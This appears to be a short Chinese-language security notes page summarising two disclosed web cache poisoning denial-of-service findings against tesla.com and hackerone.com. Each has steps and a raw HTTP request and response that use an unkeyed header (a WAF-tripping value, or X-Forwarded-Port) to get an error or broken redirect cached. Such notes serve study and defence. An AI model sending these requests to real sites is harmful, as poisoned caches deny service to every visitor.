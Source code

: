 ## [tesla web缓存中毒导致的dos](https://portswigger.net/research/responsible-denial-of-service-with-web-cache-poisoning)
#web_cache #dos
1. WAF 看见“burpcollaborator.net” 就会给出您已经被阻止
2. 缓存中毒，步骤，Any-Header为非缓存键
```code
GET /en_GB/roadster?dontpoisoneveryone=1 HTTP/1.1  
Host: www.tesla.com  
Any-Header: burpcollaborator.net  
  
HTTP/1.1 403 Forbidden  
  
Access Denied. Please contact waf@tesla.com
```

## [Denial of service via cache poisoning](https://hackerone.com/reports/409370)
#web_cache  #dos
1. Drupal缓存链
2. web缓存中毒 X-Forwarded-Port 非缓存建
3. X-Forwarded-Port 重定向网站端口
```code
GET /index.php?dontpoisoneveryone=1 HTTP/1.1  
Host: www.hackerone.com  
X-Forwarded-Port: 123  
  
HTTP/1.1 302 Found  
Location: https://www.hackerone.com:123/
```
![](../media/Pasted%20image%2020231004190327.png)

